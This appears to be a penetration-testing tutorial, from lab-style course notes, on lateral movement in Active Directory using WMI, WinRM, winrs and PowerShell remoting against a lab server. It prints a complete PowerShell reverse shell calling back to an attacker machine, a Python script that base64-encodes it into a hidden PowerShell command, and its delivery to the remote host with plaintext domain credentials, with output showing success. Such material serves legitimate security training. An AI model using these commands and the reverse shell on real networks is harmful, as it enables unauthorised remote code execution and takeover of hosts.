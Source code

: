 # Lateral Movement in Active Directory

### WMIC & WinRM

We'll instruct wmic to launch a calculator, "calc" instance with the process call create keywords. It is important to note, that the machine we are attacking is a server with the hostname Files04. We are attemping to move laterally from our current machine, to this new server.

We can test the command by connecting as jeff on CLIENT74.

```bash
C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

The WMI job returned the PID of the newly created process and a return value of "0", meaning that the process has been created successfully.

Translating this attack into PowerShell syntax requires a few extra details.

First, We need to create a PSCredential object that will store our session username and password.

To do that, we will first store the username and password in variables. Then, we will secure the password via the ConvertTo-SecureString cmdlet. Finally, we'll create a new PSCredential object with the username variable and secureString object.
```bash
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

Now that we have our PSCredential object, we need to create a Common Information Model (CIM) via the New-CimSession cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the New-CimSessionOption cmdlet on the first line. On the second line, we'll create the new session, New-Cimsession against our target IP, using -ComputerName and supply the PSCredential object (-Credential $credential) along with the session options (-SessionOption $Options). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```bash
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

As a final step, we need to tie together all the arguments we configured previously by issuing the Invoke-CimMethod cmdlet and supplying Win32_Process to the ClassName and Create to the MethodName. To send the argument, we wrap them in @{CommandLine =$Command}.

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

To simulate the technique, we can connect to CLIENT74 as jeff and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```bash
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```bash
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.244",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Once we have saved the Python script, we can run it and retrieve the output to use later.

```bash
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

From the output, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

Nice! We indeed managed to move laterally and gain privileges as the jen domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as winrs (Windows Remote Shell). Note that for WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the -r: argument and the username with -u: and password with -p. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as jeff on CLIENT74 and provide jen's credentials as command arguments.

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse-shell we wrote earlier.

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID.

```bash
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

---

#### Permissions Mapped to Remote Execution tool

Administrators -> psexec || sc 
Remote Management Users -> winrm

